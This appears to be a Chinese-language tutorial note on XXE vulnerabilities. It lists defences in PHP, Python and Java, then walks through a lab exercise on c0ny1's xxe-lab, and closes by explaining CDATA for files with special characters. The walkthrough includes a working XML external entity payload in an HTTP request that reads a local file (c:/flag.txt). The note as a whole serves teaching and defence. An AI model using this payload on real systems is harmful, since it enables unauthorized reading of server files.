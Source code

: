 # XXE防御
过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC<br />PHP下<br />libxml_disable_entity_loader(true);<br />python下<br />from lxml import etree<br />xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))<br />Java下<br />![截屏2021-06-17 下午8.48.34.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623934129947-82a4b1eb-eae4-44c4-b71b-710f937da0b7.png#align=left&display=inline&height=1142&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-17%20%E4%B8%8B%E5%8D%888.48.34.png&originHeight=1142&originWidth=2032&size=741526&status=done&style=none&width=2032)
# XXE漏洞实战
## PHP语言下的XXE漏洞实战
环境：[c0ny1](http://gv7.me/)的xxe-lab<br />![截屏2021-06-18 上午2.11.16.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623953489264-c04a8a17-b83b-42ac-ba80-a32475cfb9a1.png#align=left&display=inline&height=1666&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%882.11.16.png&originHeight=1666&originWidth=2536&size=385603&status=done&style=none&width=2536)<br />目标<br />寻找C盘下的flag

首先利用burp抓包<br />![截屏2021-06-18 上午2.14.20.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623953683517-891b61c7-f7ff-4eb6-8792-ba7da301bc1c.png#align=left&display=inline&height=1750&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%882.14.20.png&originHeight=1750&originWidth=2696&size=483256&status=done&style=none&width=2696)<br />在repeater中改包发包<br />发送包修改为如下
```xml
POST /php_xxe/doLogin.php HTTP/1.1
Host: 192.168.43.231
Content-Length: 158
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.231
Referer: http://192.168.43.231/php_xxe/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version='1.0'?>
<!DOCTYPE user[
<!ENTITY baz SYSTEM "file:///c:/flag.txt">
]>
<user><username>admin&baz;</username><password>admin</password></user>
```
成功得到flag内容<br />![截屏2021-06-18 上午2.56.41.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623956215547-e0b7c5d0-2a6b-4723-9943-8b09eb5111e9.png#align=left&display=inline&height=1750&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%882.56.41.png&originHeight=1750&originWidth=2696&size=661785&status=done&style=none&width=2696)<br />后台源码<br />![截屏2021-06-18 上午3.19.43.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623957654248-590a87a0-3da1-4d7a-995a-2239d6ba891b.png#align=left&display=inline&height=1196&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%883.19.43.png&originHeight=1196&originWidth=1532&size=345572&status=done&style=none&width=1532)
## XXE漏洞读取有特殊字符的文件
上面所述的flag文件中的字符都是普通字符，如果flag文件中的内容为一段PHP代码，则无法输出。例如，文件的内容为flag{<?php phpinfo();?>}，则只会输出flag{}。<br />所以需要用到CDATA<br />被`<![CDATA[]]>`这个标记所包含的内容将表示为**纯文本**，比如`<![CDATA[<]]>`表示文本内容`<`。<br />此标记用于xml文档中，我们先来看看使用转义符的情况。我们知道，在xml中，`<`、`>`、`&`等字符是不能直接存入的，否则xml语法检查时会**报错**，如果想在xml中使用这些符号，必须将其转义为实体，如`&lt;`、`&gt;`、`&amp;`，这样才能保存进xml文档。<br />在使用程序读取的时候，解析器会自动将这些实体转换回`<`、`>`、`&`。
